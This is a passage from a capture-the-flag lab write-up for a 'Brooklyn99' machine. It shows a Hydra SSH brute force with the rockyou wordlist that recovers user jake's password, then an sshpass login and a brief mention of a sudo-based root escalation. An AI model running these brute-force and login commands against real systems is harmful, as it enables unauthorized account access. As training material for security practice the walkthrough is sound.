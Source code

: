 ```bash
clobee@kali:~/tmp/brooklyn99$ batcat note_to_jake.txt 
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: note_to_jake.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ From Amy,
   2   │ 
   3   │ Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
   4   │ 
   5   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

##### SSH Brute force

Thanks to the note we discovered from the FTP we knew that we had a potential vulnerable user.
A brute force exercice on the SSH service with the user `Jake` revealed his password

```bash
clobee@kali:~/tmp/brooklyn99$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.65.228

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-02 22:34:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344370 login tries (l:1/p:14344370), ~896524 tries per task
[DATA] attacking ssh://10.10.65.228:22/
[22][ssh] host: 10.10.65.228   login: jake   password: 987654321
```

##### SSH access: user jake

The password for user `Jake` that we retrieved from the brute force was correctly working

```bash
clobee@kali:~/tmp/brooklyn99$ sshpass -p '987654321' ssh jake@10.10.65.228
Last login: Tue May 26 08:56:58 2020
```

Using the limited access to the system, we conducted an analysis of the exploited system. 
This resulted in the discovery of a private XXXX

### Interactive shell to account

The previous steps of enumeration revealled 2 SSH access.
Both user account revealled to be able to use sudo on commands with well-known vulnerabilities.
We leveraged one of this vunerability to gain root access.
